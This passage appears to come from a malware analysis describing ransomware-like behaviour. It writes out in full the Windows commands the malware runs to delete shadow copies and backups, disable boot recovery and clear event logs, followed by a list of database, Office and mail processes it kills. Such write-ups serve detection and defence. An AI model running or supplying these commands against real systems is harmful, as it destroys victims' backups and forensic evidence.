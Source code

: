 	The malware deletes system event logs and shadow copies by performing the following commands:



dism /online /enable-feature /featurename:NetFx3
vssadmin.exe Delete Shadows /All /Quiet
bcdedit /set {default} recoveryenabled no
wmic shadowcopy delete
wbadmin delete backup
wbadmin delete systemstatebackup -keepversions:0
bcdedit /set {default} bootstatuspolicy ignoreallfailures
bcdedit /set {default} recoveryenabled no
wevtutil.exe clear-log Application
wevtutil.exe clear-log Security
wevtutil.exe clear-log System
wbadmin delete catalog -quiet
wbadmin delete catalog -quiet
wbadmin delete systemstatebackup



	It then looks for and stops the following processes:





agntsvc.exe
agntsvc.exe
agntsvc.exe
agntsvc.exe
dbeng50.exe
dbsnmp.exe
encsvc.exe
excel.exe
firefoxconfig.exe
infopath.exe
isqlplussvc.exe
msaccess.exe
msftesql.exe
mspub.exe
mydesktopqos.exe
mydesktopservice.exe
mysqld-nt.exe
mysqld-opt.exe
mysqld.exe
notepad++.exe
notepad.exe
ocautoupds.exe
ocomm.exe
ocssd.exe
onenote.exe
oracle.exe
outlook.exe
powerpnt.exe
sqbcoreservice.exe
sqlagent.exe
sqlbrowser.exe
sqlservr.exe
sqlwriter.exe
steam.exe
synctime.exe
tbirdconfig.exe
thebat.exe
thebat64.exe
thunderbird.exe
visio.exe
winword.exe